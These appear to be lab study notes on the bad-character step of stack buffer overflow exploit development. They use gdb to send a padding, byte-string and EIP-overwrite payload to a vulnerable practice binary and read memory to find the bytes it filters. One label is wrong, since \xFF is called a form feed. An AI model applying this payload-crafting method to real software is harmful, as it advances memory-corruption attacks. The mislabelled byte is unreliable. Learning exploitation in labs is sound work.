 These reserved characters, also known as bad characters can vary, but often we will see characters like this:
* \x00 - Null Byte
* \x0A - Line Feed
* \x0D - Carriage Return
* \xFF - Form Feed

```
la1n23@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

la1n23@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w

256 bytes
```

```
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```   
Set breakpoint on our function:
```
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>: 	lea    ecx,[esp+0x4]
   0x56555586 <+4>: 	and    esp,0xfffffff0
   0x56555589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:	push   ebp
   0x5655558d <+11>:	mov    ebp,esp
   0x5655558f <+13>:	push   ebx
   0x56555590 <+14>:	push   ecx
   0x56555591 <+15>:	call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:	add    ebx,0x1a3e
   0x5655559c <+26>:	mov    eax,ecx
   0x5655559e <+28>:	mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:	add    eax,0x4
   0x565555a4 <+34>:	mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:	sub    esp,0xc
   0x565555a9 <+39>:	push   eax
   0x565555aa <+40>:	call   0x5655554d <bowfunc>		# <---- bowfunc Function
   0x565555af <+45>:	add    esp,0x10
   0x565555b2 <+48>:	sub    esp,0xc
   0x565555b5 <+51>:	lea    eax,[ebx-0x1974]
   0x565555bb <+57>:	push   eax
   0x565555bc <+58>:	call   0x565553e0 <puts@plt>
   0x565555c1 <+63>:	add    esp,0x10
   0x565555c4 <+66>:	mov    eax,0x1
   0x565555c9 <+71>:	lea    esp,[ebp-0x8]
   0x565555cc <+74>:	pop    ecx
   0x565555cd <+75>:	pop    ebx
   0x565555ce <+76>:	pop    ebp
   0x565555cf <+77>:	lea    esp,[ecx-0x4]
   0x565555d2 <+80>:	ret    
End of assembler dump.

(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```
Send our characters:
```
(gdb) run $(python2 -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```
find where CHARS begin
```
(gdb) x/2000xb $esp+500
 <SNIP>
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin
 <SNIP>
 0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin
 ```
 We see where our "\x55" ends, and the CHARS variable begins. But if we look closely at it, we will see that it starts with "\x01" instead of "\x00". We have already seen the warning during the execution that the null byte in our input was ignored.

So we can note this character, remove it from our variable CHARS and adjust the number of our "\x55".
```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```
Send CHARS - Without Null Byte
```
(gdb) run $(python2 -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
Here it depends on our bytes' correct order in the variable CHARS to see if any character changes, interrupts, or skips the order. Now we recognize that after the "\x08", we encounter the "\x00" instead of the "\x09" as expected. This tells us that this character is not allowed here and must be removed accordingly.

Repeat untill all bad characters removed.
Write down all bad characters
```
\x00\x09\x0a\x20
```
